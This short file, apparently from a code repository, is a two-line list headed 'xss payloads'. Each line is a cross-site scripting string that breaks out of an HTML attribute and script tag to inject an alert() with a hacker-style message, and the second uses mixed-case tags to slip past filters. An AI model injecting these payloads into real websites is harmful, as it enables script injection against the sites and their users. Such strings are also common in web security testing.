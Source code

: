 # xss payloads
'"></script><script>alert('pwned!!')</script>
'"></sCriPt><sCriPt>alert('H4ck3d_by_Rug3l3on')</sCriPt>

